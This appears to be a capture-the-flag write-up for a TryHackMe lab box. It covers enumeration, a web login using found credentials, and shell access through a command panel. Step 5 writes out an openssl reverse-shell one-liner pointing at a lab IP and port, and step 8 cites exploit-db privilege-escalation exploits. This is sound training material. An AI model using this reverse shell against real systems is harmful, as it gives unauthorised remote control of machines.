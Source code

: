 # Simple CTF

---

Machine by [ar33zy](https://tryhackme.com/p/ar33zy)

[Tryhackme link](https://tryhackme.com/room/picklerick)

---

Tools Used:

- Kali Linux
- NMAP
- 


---

1.  Nmap Scan

    We'll scan the IP to see what services are running, first, let's visit the website.

    ![](img/picklerick01.png)

2. Website 

    After visiting the website, we can't see anything that gives out any clues or ingridient.

    After visiting the source code we can see the following, a username, we may be able to use a dictionary attack on ssh:

    ![](img/picklerick02.png)

    After a little test with hydra, we can see that the server doesn't allow password access (only with public keys):

    ![](img/picklerick03.png)

3. gobuster & dirbuster

    I've tried to use gobuster to list the available directories and some files on the webserver, i could find a assets folder with a bunch of pics, i ran binwalk on all of them but none resulted in any clues.

    
    ![](img/picklerick04.png)

    The `robots.txt` file has a wierd text, i'll save it for later maybe: 

    ![](img/picklerick05.png)

    After no successful clues i turned to dirbuster to look for php files, and found a `login.php`:

    ![](img/picklerick06.png)

4. Web login

    We can see a login portal, for wich i'll use the user `R1ckRul3s` and password `Wubbalubbadubdub` that we found previously:

    ![](img/picklerick07.png)

    And after logging in we can see the next command prompt, we are executing commands as `www-data` so we'll have limited access (all the other links on the navbar seem to lead to a dead end for the moment, so i'll ignore them):

    ![](img/picklerick08.png)

5. Reverse Shell access

    Then i'll attempt to use a reverse shell that exploits openSSL from [this](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#openssl) website.
   
    `mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.8.32.220:4242 > /tmp/s; rm /tmp/s`

    ![](img/picklerick09.png)

    As we can see we've got access to the machine:

    ![](img/picklerick10.png)

6. First Flag

    We can see that there is a .txt file, if we cat that we can see the first flag:

    ![](img/picklerick11.png)

7. Second Flag

    After entering the `/home/` folder we see a couple of user's homes, ubuntu doesn't contain any visible file, but rick does, and there we can find the second flag:

    ![](img/picklerick12.png)




8. Privilege Escalation

    uname -a:

    ![](img/picklerick13.png)

    https://www.exploit-db.com/exploits/41458 Not woking

    Will attempt:

    https://www.exploit-db.com/exploits/41457